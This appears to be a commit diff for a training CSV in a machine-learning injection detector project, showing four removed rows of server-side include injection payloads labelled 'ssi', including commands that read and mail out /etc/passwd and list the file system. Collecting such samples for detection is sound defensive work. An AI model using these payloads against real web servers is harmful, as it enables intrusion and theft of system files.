

Before and after one commit to f5devcentral/ml_sqli_detector, a CSV file: trainlist.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added new trainlist

```diff
--- a/trainlist.csv
+++ b/trainlist.csv
-row 328: <!--#exec cmd="cat /etc/passwd" --><br/> | ssi
-row 1771: <!--#exec cmd="mail Florian Roth @4nc4p <mailto:Florian Roth @4nc4p> < cat /etc/passwd" --><br/> | ssi
-row 3225: <!--#exec cmd="/bin/ls /" --><br/> | ssi
-row 9074: <!--#exec cmd="find / -name *.* -print" --><br/> | ssi
```
Also changed, not shown: 1 other file.
